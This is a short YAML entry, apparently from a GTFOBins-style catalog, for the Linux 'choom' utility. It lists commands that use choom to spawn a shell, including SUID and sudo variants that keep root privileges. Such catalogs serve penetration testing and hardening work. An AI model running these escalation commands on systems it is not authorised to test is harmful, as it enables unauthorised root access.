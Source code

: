```yaml
---
functions:
  shell:
    - code: choom -n 0 /bin/sh
  suid:
    - code: ./choom -n 0 -- /bin/sh -p
  sudo:
    - code: sudo choom -n 0 /bin/sh
---
```

